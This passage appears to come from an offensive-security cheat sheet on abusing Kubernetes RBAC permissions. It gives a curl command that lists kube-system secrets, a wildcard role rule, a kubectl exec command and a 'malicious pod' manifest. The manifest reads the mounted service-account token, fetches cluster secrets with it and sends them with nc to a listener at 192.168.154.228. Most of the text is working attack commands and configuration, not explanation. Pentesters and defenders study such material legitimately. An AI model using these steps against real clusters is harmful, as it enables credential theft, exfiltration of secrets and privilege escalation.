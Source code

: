## RBAC Configuration

### Listing Secrets

An attacker that gains access to list secrets in the cluster can use the following curl commands to get all secrets in "kube-system" namespace.

```powershell
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Access Any Resource or Verb

```powershell
resources:
- '*'
verbs:
- '*'
```

### Pod Creation

Check your right with `kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml`.
Then create a malicious pod.yaml file.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

Then `kubectl apply -f malicious-pod.yaml`

### Privilege to Use Pods/Exec

```powershell
kubectl exec -it <POD NAME> -n <PODS NAMESPACE> –- sh
```
